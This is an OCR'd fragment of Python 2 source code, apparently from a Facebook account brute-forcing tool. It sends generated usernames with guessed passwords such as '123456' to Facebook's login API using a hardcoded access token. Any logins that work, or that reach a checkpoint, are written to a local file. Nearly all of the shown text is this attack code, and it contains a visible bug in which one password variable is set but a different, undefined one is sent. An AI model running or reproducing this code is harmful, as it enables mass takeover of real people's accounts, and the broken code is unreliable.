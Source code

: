                     cps = open('save/Checkpoint.txt', 'a')

                    cps.write(k+c+user+pass1+'\n')

                    cps.close()

                    cpb.append(c+user+pass1)

                else:

                    pass2 = k + c + user

                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

                    q = json.load(data)

                    if 'access_token' in q:

                        print '\x1b[1;92m[Successfull] ' + k + c + user +  '  |  ' + pass2

                        okb = open('save/Checkpoint.txt', 'a')

                        okb.write(k+c+user+pass2+'\n')

                        okb.close()

                        oks.append(c+user+pass2)

                    else:

                        if 'www.facebook.com' in q['error_msg']:

                            print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass2

                            cps = open('save/Checkpoint.txt', 'a')

                            cps.write(k+c+user+pass2+'\n')

                            cps.close()

                            cpb.append(c+user+pass2)

                        else:

                            pass3="123456"

                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

                            q = json.load(data)

                            if 'access_token' in q:

                                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass3

                                okb = open('save/Checkpoint.txt', 'a')

                                okb.write(k+c+user+pass3+'\n')

                                okb.close()

                                oks.append(c+user+pass3)
